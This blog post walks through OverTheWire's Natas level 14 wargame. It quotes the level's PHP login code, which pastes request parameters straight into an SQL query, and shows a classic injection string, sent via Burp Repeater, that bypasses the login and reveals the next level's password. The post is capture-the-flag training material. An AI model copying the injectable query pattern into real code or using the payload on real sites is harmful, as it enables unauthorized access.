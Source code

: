 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 14"
date:   2015-09-21
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 14 > Level 15

![natas14-01](/assets/images/otw-natas/natas14-01.png)

```
<h1>natas14</h1>
<div id="content">
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

SQLi! And a pretty bad one at that. I did this in Burp Suite's Repeater since you can manually control whether characters are encoded rather than the browser deciding for you. This being about the most obviously injectable page possible, the most classic injection does the trick. Mind `'` vs `"`, have to admit that tripped me up for a few minutes before I noticed.

```
username=foo&password=foo" or "1"="1
```

```
<h1>natas14</h1>
<div id="content">
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

Success!

TODO: elaborate on bool logic
